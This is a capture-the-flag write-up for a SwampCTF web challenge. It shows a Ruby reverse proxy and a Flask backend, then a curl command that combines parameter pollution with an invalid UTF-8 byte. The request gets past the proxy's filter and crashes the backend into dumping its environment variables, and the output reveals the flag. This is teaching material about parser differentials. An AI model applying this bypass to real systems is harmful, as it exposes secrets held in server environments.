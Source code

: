 # Challenge description

I have created a safe reverse proxy that only forwards requests to retrieve debug information from the backend. What could go wrong?

# Soluce

When we open the source code of the website, there is two importants files:

```ruby
require 'sinatra'
require 'rack/proxy'
require 'json'

class ReverseProxy < Rack::Proxy
  def perform_request(env)
    request = Rack::Request.new(env)

    # Only allow requests to the /api?action=getInfo endpoint
    if request.params['action'] == 'getInfo'
      env['HTTP_HOST'] = 'backend:5000'
      env['PATH_INFO'] = '/api'
      env['QUERY_STRING'] = request.query_string
      body = request.body.read
      env['rack.input'] = StringIO.new(body)
      
      begin
        json_data = JSON.parse(body)
        puts "Received valid JSON data: #{json_data}"
        super(env)
      rescue JSON::ParserError => e
        puts "Error parsing JSON: #{e.message}"
        return [200, { 'Content-Type' => 'application/json' }, [{ message: "Error parsing JSON", error: e.message }.to_json]]
      end
    else
      [200, { 'Content-Type' => 'text/plain' }, ["Unauthorized"]]
    end
  end
end

use ReverseProxy

set :bind, '0.0.0.0'
set :port, 8080
puts "Server is listening on port 8080..."
```

And

```python
from flask import Flask, jsonify, request
import os
import logging

app = Flask(__name__)

app.config['DEBUG'] = os.getenv('DEBUG', 'False')
app.config['LOG_LEVEL'] = os.getenv('LOG_LEVEL', 'warning')


@app.route('/api', methods=['POST'])
def api():
    param = request.args.get('action')
    app.logger.info(f"Received param: {param}")

    if param == 'getFlag':
        try:
            data = request.get_json()
            app.logger.info(f"Received JSON data: {data}")
            return jsonify(message="Prased JSON successfully")
        except Exception as e:
            app.logger.error(f"Error parsing JSON: {e}")
            debug_data = {
                'headers': dict(request.headers),
                'method': request.method,
                'url': request.url,
                'env_vars': {key: value for key, value in os.environ.items()}
            }
            return jsonify(message="Something broke!!", debug_data=debug_data)

    if param == 'getInfo':
        debug_status = app.config['DEBUG']
        log_level = app.config['LOG_LEVEL']
        return jsonify(message="Info retrieved successfully!", debug=debug_status, log_level=log_level)

    return jsonify(message="Invalid action parameter!", param=param)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

So there is a reverse proxy that only allows requests to the `/api?action=getInfo` endpoint. But in the backend, we can see that there is a `getFlag` endpoint that is not allowed by the reverse proxy. 

We will call the endpoint `/api?action=getFlag` with a POST request by calling getFlag and getInfo to bypass the reverse proxy. 

Now we have to bypass the `json_data = JSON.parse(body)` in the reverse proxy and make crash the backend on the `data = request.get_json()` line in the `getFlag` route. The flag is probably in the environment variables.

We will do this with the following command:

```sh
┌──(virgile㉿localhost)-[~/Téléchargements]
└─$ curl -X POST 'http://chals.swampctf.com:41234/api?action=getFlag&action=getInfo'   -H 'Content-Type: application/json'   --data-binary '{"a":"\xFF"}'
{
  "debug_data": {
    "env_vars": {
      "DATABASE_URL": "sqlite:///app.db", 
      "DEBUG": "True", 
      "ENV": "development", 
      "FLASK_ENV": "development", 
      "GPG_KEY": "E3FF2839C048B25C084DEBE9B26995E310250568", 
      "HOME": "/root", 
      "HOSTNAME": "7b5833412723", 
      "LANG": "C.UTF-8", 
      "LOG_LEVEL": "info", 
      "PATH": "/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", 
      "PYTHON_SHA256": "3126f59592c9b0d798584755f2bf7b081fa1ca35ce7a6fea980108d752a05bb1", 
      "PYTHON_VERSION": "3.9.21", 
      "SECRET_KEY": "swampCTF{1nt3r0p3r4b1l1ty_p4r4m_p0llut10n_x7q9z3882e}", 
      "WERKZEUG_RUN_MAIN": "true", 
      "WERKZEUG_SERVER_FD": "3"
    }, 
    "headers": {
      "Accept": "*/*", 
      "Content-Length": "12", 
      "Content-Type": "application/json", 
      "Host": "backend:5000", 
      "User-Agent": "curl/8.12.1", 
      "Version": "HTTP/1.1", 
      "X-Forwarded-For": "62.235.211.9"
    }, 
    "method": "POST", 
    "url": "http://backend:5000/api?action=getFlag&action=getInfo"
  }, 
  "message": "Something broke!!"
}
```

This works because the reverse proxy (written in Ruby using Sinatra) parses the request body using JSON.parse, which is tolerant and accepts the input {"a":"\xFF"} as valid JSON. However, on the backend, Flask attempts to decode the request body as UTF-8 before parsing it as JSON. Since the byte \xFF is not valid in UTF-8, this triggers a UnicodeDecodeError in Python. The error is caught by the try/except block in the getFlag route, which responds with a debug payload that includes environment variables—potentially exposing sensitive data such as the flag.

So the flag is `swampCTF{1nt3r0p3r4b1l1ty_p4r4m_p0llut10n_x7q9z3882e}`.